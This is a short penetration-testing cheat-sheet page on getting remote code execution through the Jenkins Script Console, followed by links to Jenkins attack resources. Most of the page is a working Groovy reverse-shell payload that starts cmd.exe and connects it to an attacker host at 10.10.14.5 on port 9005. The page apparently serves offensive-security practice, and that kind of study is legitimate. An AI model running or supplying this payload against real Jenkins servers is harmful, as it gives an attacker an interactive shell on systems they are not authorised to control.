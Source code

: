 # 🕴 Jenkins

## RCE from Script Console

> From [frohoff/**revsh.groovy**](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

```bash
String host="10.10.14.5";
int port=9005;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Resources

{% embed url="https://github.com/gquere/pwn_jenkins" %}

{% embed url="https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security" %}
